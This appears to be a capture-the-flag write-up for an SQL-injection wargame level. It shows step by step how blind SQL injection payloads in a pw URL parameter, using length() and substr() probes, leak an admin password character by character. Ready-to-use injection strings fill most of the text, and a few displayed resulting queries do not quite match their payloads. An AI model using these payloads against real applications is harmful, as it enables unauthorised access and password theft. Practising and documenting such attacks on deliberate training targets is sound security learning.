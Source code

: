 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3bcdaeff-a4ba-4e3c-8acd-73e2ec8ce6d9)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/8a33f464-e7de-4d4a-a47c-7285e7d69ea9)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9d922a6a-4f1e-4b4a-a3bd-e8d8b721ba3e)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/b1e4352c-c272-4fb7-8401-7d5fe2cc4423)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)=0 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/53f17b2b-b80d-4b8e-a904-bd88c1cbb7f3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=0 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/7abdfbc4-b2e1-4448-ad7e-8e38484d4cc1)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=9 %23
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/fcc7790e-333b-4b3c-b197-bfc02f67788d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852' %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/cee48c8e-2e61-4ccd-93fc-2abe7fb6d417)
